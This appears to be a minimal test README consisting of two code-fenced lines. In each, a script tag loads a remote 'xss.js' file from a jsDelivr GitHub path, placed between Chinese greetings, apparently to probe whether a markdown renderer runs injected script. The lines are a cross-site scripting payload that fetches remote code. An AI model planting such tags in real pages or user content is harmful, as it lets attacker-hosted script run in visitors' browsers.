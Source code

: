 # test 
test  
```你好 <script src="https://cdn.jsdelivr.net/gh/steveruu/test@main/xss.js"></script> 你好```  
```你好 <script src="https://cdn.jsdelivr.net/gh/steveruu/test@latest/xss.js"></script> 你好```  
